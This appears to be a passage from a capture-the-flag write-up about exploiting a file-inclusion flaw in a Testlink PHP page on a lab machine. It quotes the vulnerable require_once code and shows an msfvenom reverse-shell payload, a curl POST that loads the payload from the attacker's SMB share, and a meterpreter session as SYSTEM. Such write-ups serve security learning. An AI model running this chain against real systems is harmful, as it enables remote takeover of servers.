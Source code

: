 ### Local File Include

The Testlink application is located in `/apps/testlink/htdocs`.

The `linkto.php` file contains an LFI, the important code is shown below:

```php
// alpha 0.0.1 implementation of our new pipercoin authentication tech
// full API not done yet. just submit tokens with requests for now.
if(isset($_POST['PiperID'])){$PiperCoinAuth = $_POST['PiperCoinID']; //plugins/ppiper/pipercoin.php
        $PiperCoinSess = base64_decode($PiperCoinAuth);
				$PiperCoinAvitar = (string)$PiperCoinSess;}
[...]  
require_once($PiperCoinAuth); 
```

When I do a GET request on linkto.php, I get the following error message:

```
Fatal error: require_once(): Failed opening required '' (include_path='C:\xampp\php\PEAR;.;C:\xampp\apps\testlink\htdocs\lib\functions\;C:\xampp\apps\testlink\htdocs\lib\issuetrackerintegration\;C:\xampp\apps\testlink\htdocs\lib\codetrackerintegration\;C:\xampp\apps\testlink\htdocs\lib\reqmgrsystemintegration\;C:\xampp\apps\testlink\htdocs\third_party\') in C:\xampp\apps\testlink\htdocs\linkto.php on line 62
```

The `linkto.php` has a `require_once($PiperCoinAuth)` command, and because `$PiperCoinAuth` is under direct control of users through the POST PiperCoinID parameter, we can include any arbitrary PHP file.

I generated a PHP meterpreter payload.

```
# msfvenom -p php/meterpreter/reverse_tcp -o met.php LHOST=10.10.14.23 LPORT=4444
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 1112 bytes
Saved as: met.php
```

Then sent a POST request to execute PHP code through my SMB server

```
# curl -XPOST --data "PiperID=1&PiperCoinID=\\\\10.10.14.23\share\met.php" http://code.bighead.htb/testlink/linkto.php
```

Finally, I get a proper shell as SYSTEM on the target system

```
msf5 exploit(multi/handler) > [*] Encoded stage with php/base64
[*] Sending encoded stage (51106 bytes) to 10.10.10.112
[*] Meterpreter session 4 opened (10.10.14.23:4444 -> 10.10.10.112:49159) at 2019-05-02 21:06:18 -0400

msf5 exploit(multi/handler) > sessions 4
[*] Starting interaction with 4...

meterpreter > getuid
Server username: SYSTEM (0)
```
Got user flag:
``` 
meterpreter > cat /users/nginx/desktop/user.txt
5f158a...
```
